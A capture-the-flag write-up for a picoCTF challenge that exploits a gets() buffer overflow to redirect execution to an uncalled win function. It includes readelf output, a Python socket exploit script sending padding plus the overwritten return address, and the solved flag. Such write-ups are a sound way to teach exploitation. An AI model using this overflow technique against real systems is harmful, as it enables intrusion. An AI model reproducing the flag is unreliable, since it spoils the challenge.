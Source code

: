 <ol>
    <li>
    We get "vuln.c" and "vuln"

    $ wget https://artifacts.picoctf.net/c/250/vuln; https://artifacts.picoctf.net/c/250/vuln.c
</li>
<br/>
    <li>
    Reading through "vuln.c" I noticed the function that prints the flag is the "win" function, but yet it's not called during the execution of "vuln".
</li>
<br/>
    <li>
    Also the "vuln" funtion uses the dangerous "gets" to get the input, and since it's the only thing it does besides the print below, we can cause a buffer overflow to change it's return address.
</li>
<br/>
    <li>
    For us to be able to direct the return address to "win"s, we need to know it's adress. We can do that by using the program "readelf" on "vuln" (watch out because the address comes in little endian, we need to swap it's endianness): 
</li>

```bash

$ readelf -s ./vuln

> Num:    Value  Size Type    Bind   Vis      Ndx Name
  ...
  63: 080491f6   139 FUNC    GLOBAL DEFAULT   13 win
  ...

```
<br/>
<li>
Now we just need to overflow the buffer with "win"s return address:

```python
import socket

payload = b"A"*44 + b"\xf6\x91\x04\x08" + b"\n"

with socket.socket() as connection:

    connection.connect(("saturn.picoctf.net",56104))
    connection.recv(4096).decode("utf-8")
    connection.send(payload)
    text, flag = connection.recv(4096).decode("utf-8").split("\n")
    print(flag)

```

</li>
<br/>
<details>
    <summary> Flag </summary>
    
    picoCTF{addr3ss3s_ar3_3asy_ad2f467b}
</details>

</ol>